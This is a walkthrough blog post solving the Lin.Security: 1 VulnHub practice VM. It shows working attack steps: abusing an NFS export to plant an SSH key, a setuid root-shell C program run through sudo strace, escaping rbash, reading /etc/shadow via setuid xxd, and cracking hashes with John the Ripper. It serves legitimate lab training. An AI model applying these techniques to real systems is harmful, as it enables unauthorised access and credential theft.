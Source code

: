```yaml
---
layout: post
date: 2018-08-18 13:12:15 +0000
last_modified_at: 2018-08-28 04:43:27 +0000
title: "Lin.Security: 1 Walkthrough"
subtitle: "Not Too Secure"
category: Walkthrough
tags: [VulnHub, Lin.Security]
comments: true
image:
  feature: lin.security-1-walkthrough.jpg
  credit: aitoff / Pixabay
  creditlink: https://pixabay.com/en/rope-frayed-old-coiled-strand-2189420/
---
```


This post documents the complete walkthrough of Lin.Security: 1, a boot2root [VM][1] created by [in.security][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

Here at in.security we wanted to develop a Linux virtual machine that is based, at the time of writing, on an up-to-date Ubuntu distro (18.04 LTS), but suffers from a number of vulnerabilities that allow a user to escalate to `root` on the box. This has been designed to help understand how certain built-in applications and services if misconfigured, may be abused by an attacker.

We have configured the box to simulate real-world vulnerabilities (albeit on a single host) which will help you to perfect your local privilege escalation skills, techniques and toolsets. There are a number of challenges which range from fairly easy to intermediate level, and we’re excited to see the methods you used to solve them!

### Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 7a:9b:b9:32:6f:95:77:10:c0:a0:80:35:34:b1:c0:00 (RSA)
|   256 24:0c:7a:82:78:18:2d:66:46:3b:1a:36:22:06:e1:a1 (ECDSA)
|_  256 b9:15:59:78:85:78:9e:a5:e6:16:f6:cf:96:2d:1d:36 (ED25519)
111/tcp   open  rpcbind  syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  3           2049/udp  nfs
|   100003  3,4         2049/tcp  nfs
|   100005  1,2,3      41225/tcp  mountd
|   100005  1,2,3      44576/udp  mountd
|   100021  1,3,4      38947/tcp  nlockmgr
|   100021  1,3,4      59622/udp  nlockmgr
|   100227  3           2049/tcp  nfs_acl
|_  100227  3           2049/udp  nfs_acl
2049/tcp  open  nfs_acl  syn-ack ttl 64 3 (RPC #100227)
38947/tcp open  nlockmgr syn-ack ttl 64 1-4 (RPC #100021)
41225/tcp open  mountd   syn-ack ttl 64 1-3 (RPC #100005)
41683/tcp open  mountd   syn-ack ttl 64 1-3 (RPC #100005)
51813/tcp open  mountd   syn-ack ttl 64 1-3 (RPC #100005)
```

`nmap` finds `22/tcp` and `111/tcp` open. I don't see the usual `80/tcp`, which is unfortunate. We have to rely on other means to gain a foothold into the VM.

### Network File System

Good thing for us, NFS is available. Using `showmount`, we can display the exports on the VM.

```
# showmount -e 192.168.30.129
Export list for 192.168.30.129:
/home/peter *
```

Let's mount the remote directory.

```
# mkdir -p /mnt/peter
# mount -t nfs 192.168.30.129:/home/peter /mnt/peter
# ls -la /mnt/peter
total 32
drwxr-xr-x 5 1001 1005 4096 Jul 10 19:49 .
drwxr-xr-x 4 root root 4096 Aug 18 11:11 ..
-rw-r--r-- 1 1001 1005  220 Jul  9 19:53 .bash_logout
-rw-r--r-- 1 1001 1005 3771 Jul  9 19:53 .bashrc
drwx------ 2 1001 1005 4096 Jul 10 10:04 .cache
-rw-rw-r-- 1 1001 1005    0 Jul 10 10:04 .cloud-locale-test.skip
drwx------ 3 1001 1005 4096 Jul 10 10:04 .gnupg
drwxrwxr-x 3 1001 1005 4096 Jul 10 08:03 .local
-rw-r--r-- 1 1001 1005  807 Jul  9 19:53 .profile
```

Now that I've mapped `/home/peter` to `/mnt/peter`, let's see if I create `.ssh` directory in `/home/peter`.

```
# mkdir -p /mnt/peter/.ssh
mkdir: cannot create directory ‘/mnt/peter/.ssh’: Permission denied
```

Hmm. Not even when I'm `root`? Let's create a fake `peter` account with an UID of `1001` on my machine.

```
# useradd -u 1001 peter
# su peter
$ cd /mnt/peter
$ mkdir .ssh
```

Awesome. Now, I can put the SSH public key I control into `/home/peter/.ssh/authorized_keys`.

First, we generate the SSH Key pair on my machine.

```
# ssh-keygen -t rsa -b 2048
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): peter
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in peter.
Your public key has been saved in peter.pub.
The key fingerprint is:
SHA256:TuGkIRfE6ODlItT4jp9ILW/8oGRTEa7JLCDI5dgKnMs root@kali
The key's randomart image is:
+---[RSA 2048]----+
|  oo +o          |
|+oO.+ ..         |
|**.X. o o        |
|O B.+o = .       |
|.E+o  . S        |
|.+.o   o         |
|.+*..   .        |
|o.o*.            |
| .. ..           |
+----[SHA256]-----+
```

Next, we copy and paste the contents of `peter.pub` to `/mnt/peter/.ssh/authorized_keys`.

```
$ echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC1rYFvo6Wh4j44p4s6WfDYb637m62zA0CwE5t9K6iKbosZMpeDBGP2q8C2O3yw2P9Dhv3jRPCutf1ruadaMxxiOY8Ook/3fwMcaueCAs0ThKCMRlnf0yzUnEHH7t82MrEghMnL4GfUcYlxIwo8d5jQe7umuJneYK786iDNEPaEajC45GQlrZWCzIWqs3B3vJBQ4FR766EHsmiKVWvQ35uR69/O39IePJQ8oSTF+PK0RoCtvmYt44jeqUO0NfYGeCGwqtYW/i+ILTOkW45bYRVjhmrJ2C+yjtK3bsmDiq28IT9STCFlkI7OqEfJkeYqBSJVqVqOkFFvx4+7fyTpchT/ > /mnt/peter/.ssh/authorized_keys
```

Open another `terminal` and log in to `peter`'s account with the SSH private key.

![peter](/assets/images/posts/lin.security-1-walkthrough/228fe4f8.png)

### Privilege Escalation

During enumeration of `peter`'s account, I found something interesting.

![sudo](/assets/images/posts/lin.security-1-walkthrough/1fc14ac6.png)

`peter` is able to `sudo` as `root` for `/usr/bin/strace`, used for tracing system calls and signals.

Holy cow. This means that I can do something like this—write a privilege escalation program and run it through `strace` with the blessing of `sudo`—all without password.

<div class="filename"><span>root.c</span></div>

```c
#include <stdlib.h>
#include <unistd.h>

int main() {
  setuid(0);
  setgid(0);
  system("/bin/bash");
}
```

Let's give it a shot.

![root](/assets/images/posts/lin.security-1-walkthrough/fe6a2b56.png)

:dancer:

### Afterthought

There's more than one way of becoming `root`. The most obvious way is to log in with `bob:secret` as suggested in the VM's description.

![bob](/assets/images/posts/lin.security-1-walkthrough/367b19d3.png)

Display `/etc/passwd`. Observe `insecurity` has its password hash in it and has `root` privileges

![/etc/passwd](/assets/images/posts/lin.security-1-walkthrough/a135634c.png)

We can copy that line and send it to **John the Ripper** for offline cracking like this.

```
# john --format=crypt --show hash.txt
insecurity:P@ssw0rd:0:0::/:/bin/sh

1 password hash cracked, 0 left
```

Another way is to discover `susan`'s password in her home directory either through `bob`'s account or `peter`'s account described above.

![susan](/assets/images/posts/lin.security-1-walkthrough/c1174f4d.png)

You'll soon notice that `susan` is using `rbash` or restricted `bash`. It's almost trivial to escape from `rbash`—execute `bash -i`.

Now that we have escaped the restricted shell, something caught my eye while I was performing enumeration on `susan`'s account.

![xxd](/assets/images/posts/lin.security-1-walkthrough/e2d6c4d0.png)

`xxd` can display the hexdump or convert to hexadecimal representation (through `-p`) of any file it has read permissions. Since `xxd` is `setuid` to `root`, we can use it to read `/etc/shadow` like so.

![/etc/shadow](/assets/images/posts/lin.security-1-walkthrough/72640ded.png)

We can copy both `/etc/passwd` and `/etc/shadow` to our attacking machine for offline cracking with **John the Ripper**, in which case the `root` password is `secret123`.

```
# john --format=crypt --show hashes.txt
root:secret123:0:0:root:/root:/bin/bash
bob:secret:1000:1004:bob:/home/bob:/bin/bash
insecurity:P@ssw0rd:0:0::/:/bin/sh

3 password hashes cracked, 2 left
```

I'm sure this is not exhaustive. Kudos to [in.security](https://in.security/) for creating this VM. No better way to learn than hands-on practice.

[1]: https://www.vulnhub.com/entry/linsecurity-1,244/
[2]: https://twitter.com/@insecurity_ltd
[3]: https://www.vulnhub.com/
